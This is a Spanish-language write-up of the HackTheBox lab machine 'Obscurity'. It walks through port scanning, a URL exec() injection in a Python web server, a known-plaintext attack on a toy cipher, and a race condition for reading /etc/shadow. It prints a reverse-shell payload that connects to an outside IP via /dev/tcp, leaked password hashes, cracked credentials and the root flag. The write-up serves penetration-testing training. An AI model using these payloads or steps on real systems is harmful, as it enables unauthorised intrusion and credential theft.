


# WriteUp HackTheBox Obscurity

[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar

## Descripción de la máquina



La resolución de la máquina presenta las siguiente fases:

* Reconocimiento
    * nmap
    * Information Leakage
	* Python Source Code Analysis
* Explotación
	* URL Command Injection
	* Known Plaintext Attack - Cryptography Challenge
* Escalada de privilegios
	* Abusing Sudoers Privilege - Shadow Race Condition [Privilege Escalation]
## Fase de Reconocimiento

Se realiza una prueba de ping para confirmar que haya conexión con la máquina

> ping 10.10.10.168 -c1

```console
PING 10.10.10.168 (10.10.10.168) 56(84) bytes of data.
64 bytes from 10.10.10.168: icmp_seq=1 ttl=63 time=137 ms

--- 10.10.10.168 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 137.198/137.198/137.198/0.000 ms
```

Para identificar el sistema operativo usamos la utilidad proporcionada por S4vitar whichSystem.py[^1]

[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>

> whichSystem.py 10.10.10.168

```console
10.10.10.168 (ttl -> 63): Linux
```

Se realiza una revisión de puertos con nmap con las siguientes opciones

* -p-: Para realizar el escaneo en todos los 65000 puertos TCP
* --open: Para reportar solamente los puertos que se encuentran abiertos
* -sS: TCP SYN port scan, este argumento se utiliza para realizar un escaneo rapido de puertos
* --min-rate: El argumento le exige a nmap realizar el escaneo con una tasa de paquetes por segundo no menor a la solicitada
* -vvv: triple verbose para mostrar más información
* -n: para que no realice resolución dns en el scaneo
* -Pn: Desabilita el descubrimiento del host a traves de ping
* -oG: exporta lo reportado en un archivo en formato grepeable

> sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn 10.10.10.168 -oG nmap/allPorts

```console
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 00:21 -04
Initiating Parallel DNS resolution of 1 host. at 00:21
Completed Parallel DNS resolution of 1 host. at 00:21, 0.10s elapsed
DNS resolution of 1 IPs took 0.10s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 00:21
Scanning 10.10.10.168 [65535 ports]
Discovered open port 22/tcp on 10.10.10.168
Discovered open port 8080/tcp on 10.10.10.168
Completed SYN Stealth Scan at 00:22, 26.54s elapsed (65535 total ports)
Nmap scan report for 10.10.10.168
Host is up, received user-set (0.14s latency).
Scanned at 2022-08-15 00:21:40 -04 for 26s
Not shown: 65531 filtered tcp ports (no-response), 2 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.76 seconds
           Raw packets sent: 131085 (5.768MB) | Rcvd: 23 (1.004KB)
```

Por comodidad usamos la utilidad proporcionada por S4vitar extractPorts la cual nos ayuda a revisar el archivo creado por nmap 'all Ports' y nos copia los puertos en la clipboard para su posterior uso; se adjunta la utilidad a continuación

```console
extractPorts () {
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)"
        echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
        echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
        echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
        /bin/bat extractPorts.tmp
        rm extractPorts.tmp

```
> extracPorts nmap/allPorts

```console
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.168
   5   │     [*] Open ports: 22,8080
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 

```

Se realiza un nuevo escaneo con una serie de scripts básicos que nmap nos ofrece para ver las técnologias que corren por detrás

> nmap -sCV -p22,8080  10.10.10.168 -oN nmap/targeted 

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 00:23 -04
Nmap scan report for 10.10.10.168
Host is up (0.14s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
8080/tcp open  http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 15 Aug 2022 04:23:27
|     Server: BadHTTPServer
|     Last-Modified: Mon, 15 Aug 2022 04:23:27
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-title: 0bscura
|_http-server-header: BadHTTPServer
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=8/15%Time=62F9CA3E%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Mon,\x2015\x20Aug\x2020
SF:22\x2004:23:27\nServer:\x20BadHTTPServer\nLast-Modified:\x20Mon,\x2015\
SF:x20Aug\x202022\x2004:23:27\nContent-Length:\x204171\nContent-Type:\x20t
SF:ext/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\"
SF:en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>\
SF:n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t<
SF:meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-s
SF:cale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20na
SF:me=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Templ
SF:ate\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20st
SF:ylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/boo
SF:tstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-a
SF:wesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templa
SF:temo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-target
SF:=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n<
SF:div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinner
SF:-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20
SF:Mon,\x2015\x20Aug\x202022\x2004:23:27\nServer:\x20BadHTTPServer\nLast-M
SF:odified:\x20Mon,\x2015\x20Aug\x202022\x2004:23:27\nContent-Length:\x204
SF:171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t
SF:<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20co
SF:ntent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20conte
SF:nt=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\nE
SF:asy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pro
SF:file\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\"
SF:scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20
SF:section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"s
SF:k-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.00 seconds
```

Se realiza un whatweb para ver más información sobre las tecnologías que se están implementando y vemos que se está realizando una resolución de nombre de dominio a *obscure.htb*

> whatweb 10.10.10.168:8080

```console
http://10.10.10.168:8080 [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[secure@obscure.htb], HTML5, HTTPServer[BadHTTPServer], IP[10.10.10.168], JQuery, Script, Title[0bscura], X-UA-Compatible[IE=Edge]
```

Se añade el nombre de dominio al /etc/hosts y se ingresa al web server.

Navegando en el web server obseervamos que existe un archivo llamado *SuperSecureServer.py* el cual da a sospechar



Probando con wfuzz observamos que hay un documento llamado *SuperSecureServer.py* en la siguiente ruta: **http://10.10.10.168:8080/develop/SuperSecureServer.py 

> wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.168:8080/FUZZ/SuperSecureServer.py

```console
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000004535:   200        170 L    498 W      5892 Ch     "develop"                                                                                                                   
```

## Fase de Explotación

Observamos que el archivo es un archivo python, por tanto nos traemos el archivo y al revisarlo vemos que en la linea 139 se está ejecutando *exec(...)* al llamar a la web,el cual podemos explotar para poder obtener acceso al servidor y también que se está incluyendo la librería **os** lo que nos da una potencial forma de ingresar al sistema.

> curl -s -X GET "http://10.10.10.168:8080/develop/SuperSecureServer.py" -o content/SuperSecureServer.py

```python
import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
import urllib.parse
import subprocess

respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}

[...]
      def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
 l           if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
```

Para probar si podemos ejecutar comandos abusando de esta explotación realizamos la siguiente prueba

Nos ponemos en escucha a los paquetes ICMP que nos lleguen:

> sudo tcpdump -i tun0 icmp -n

y si añadimos la siguiente linea a la solicitud

> index.html'; os.system('ping -c 1 10.10.14.8');'

Ingrsando por la web

> http://10.10.10.168:8080/index.html'; os.system('ping -c 1 10.10.14.8');'

Vemos que recivimos un paquete por tanto nos encontramos que podemos ejecutar comandos. Por tanto para ganar acceso al sistema, nos ponemos en escucha a través del puerto 443

> sudo nc -nlvp 443

y realizamos la siguiente consulta a traves de u navegador

> http://10.10.10.168:8080/index.html'; os.system('bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"');'

Ganando así acceso al servidor

```console
www-data@obscure:/$ whoami
www-data
```

Primeramente para poder tener una tty en condiciones se realizan los siguientes pasos:

1. > www-data@obscure:/$ script /dev/null -c bash
2. Se presiona las teclas `ctrl` + `Z`
3. > stty raw -echo; fg
4. > reset xterm
5. > export SHELL=/bin/bash
6. > export TERM=xterm
7. > stty rows 47 columns 189

Dentro del directorio */home/robert* vemos que no tenemos permisos para leer el archivo user.txt, sin embargo encontramos varios archivos

> www-data@obscure:/home/robert$ ls -lha
```console
total 60K
drwxr-xr-x 7 robert robert 4.0K May  9 13:46 .
drwxr-xr-x 3 root   root   4.0K May  9 13:46 ..
lrwxrwxrwx 1 robert robert    9 Sep 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3.7K Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4.0K May  9 13:46 BetterSSH
drwx------ 2 robert robert 4.0K May  9 13:46 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxr-x--- 3 robert robert 4.0K May  9 13:46 .config
drwx------ 3 robert robert 4.0K May  9 13:46 .gnupg
drwxrwxr-x 3 robert robert 4.0K May  9 13:46 .local
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2.5K Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Aug 15 04:15 user.txt
```

en particular vemos 3 archivos en los cuales tenemos un archivo en texto_plano (check.txt) un archivo cifrado (out.txt) y un cifrador en python (SuperSecureCrypt) que tiene una vulmerabilida conocida como Known Plaintext Atack

> cat check.txt

```console
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
```

> xxd out.txt

```console
00000000: c2a6 c39a c388 c3aa c39a c39e c398 c39b  ................
00000010: c39d c39d c289 c397 c390 c38a c39f c285  ................
00000020: c39e c38a c39a c389 c292 c3a6 c39f c39d  ................
00000030: c38b c288 c39a c39b c39a c3aa c281 c399  ................
00000040: c389 c3ab c28f c3a9 c391 c392 c39d c38d  ................
00000050: c390 c285 c3aa c386 c3a1 c399 c39e c3a3  ................
00000060: c296 c392 c391 c288 c390 c3a1 c399 c2a6  ................
00000070: c395 c3a6 c398 c29e c28f c3a3 c38a c38e  ................
00000080: c38d c281 c39f c39a c3aa c386 c28e c39d  ................
00000090: c3a1 c3a4 c3a8 c289 c38e c38d c39a c28c  ................
000000a0: c38e c3ab c281 c391 c393 c3a4 c3a1 c39b  ................
000000b0: c38c c397 c289 c281 76                   ........v
```

cat SuperSecureCrypt.py

```python
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

[...]
```

Para descifrarlo se puede seguir de las dos siguientes formas

### Forma 1

> www-data@obscure:/home/robert$ python3

```console
Python 3.6.8 (default, Aug 20 2019, 17:12:48) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
```

> f = open("check.txt","r")
>
> plaintext = f.read()
>
> f = open("out.txt","r")
>
> cipher = f.read()
>
> ''.join([chr(ord(c) - ord(p)) for c,p in zip(cipher, plaintext)])

```console
'alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal'
```


### Forma 2

> www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -i out.txt -k 'Encrypting this file with your key should result in out.txt, make sure your key is correct! ' -d -o /tmp/password.txt

```console
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file out.txt...
Decrypting...
Writing to /tmp/password.txt...
```
> www-data@obscure:/home/robert$ cat /tmp/password.txt 

```console
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovicha1
```

Por tanto con esta contraseña desciframos el password de *robert*

> www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -i passwordreminder.txt -k 'alexandrovich' -d -o /tmp/robert_password.txt

```console
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to /tmp/robert_password.txt...
```

> www-data@obscure:/home/robert$ cat /tmp/robert_password.txt 

```console
SecThruObsFTW
```

Guardamos la contraseña en credentials.txt y con esta contraseña ingresamos al usuario de *robert* para poder ver la flag user.txt

> echo "robert:SecThruObsFTW" > content/credentials.txt
>
> su robert
>
> cat user.txt

## Fase de Escalación de Privilegios

Para la escalación vemos los privilegios que tenemos con la herramienta *sudo* y vemos que podemos correr y leer el archivo BetterSSH.py como sudo

> robert@obscure:~$ sudo -l

```cnosole
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

> robert@obscure:~$ ls -lha BetterSSH/

```console
total 12K
drwxr-xr-x 2 root   root   4.0K May  9 13:46 .
drwxr-xr-x 7 robert robert 4.0K May  9 13:46 ..
-rwxr-xr-x 1 root   root   1.8K Oct  5  2019 BetterSSH.py
```

Inspeccionando el arvhico BetterSSH.py observamos que lee el archivo **/etc/shadow** y guarda su contenido en un archivo temporal dentro el directorio */tmp/SSH/*

Para poder obtener los hash del archivo */etc/shadow*, primero creamos el archivo */tmp/SSh* dado que no existe y desde dos consolas ejecutamos los dos sigueintes códigos.

> while true; do cat /tmp/SSH/*; done 2>/dev/null

```console
[...]

root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7


robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7

[...]
```

> robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py

```console
Enter username: aaa
Enter password: bbb
Invalid user
```

de esta manera nos guardamos el hash del usuario root para descifrarlo

> echo "$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1" > content/hash

Por tanto desciframos el password root con john y el diccionario *rockyou.txt* lo que nos da la contraseña de root **mercedes**

> john -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt content/hash

```console
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2022-08-15 18:49) 8.333g/s 17066p/s 17066c/s 17066C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

con esta contraseña ingresamos como root y podemos ver la flag

> robert@obscure:~$ su
>
> Password: mercedes

```console
root@obscure:/home/robert# cat /root/root.txt
37e735b0bd02f6791202aee47a3c4914
```
## Estructura del directorio

```
Obscurity
├── content
│   ├── hashes
│   └── SuperSecureServer.py
├── exploits
├── Images
│   ├── image01.png
│   └── Obscurity.png
├── nmap
│   ├── allPorts
│   └── targeted
├── Readme.md
└── scripts
```


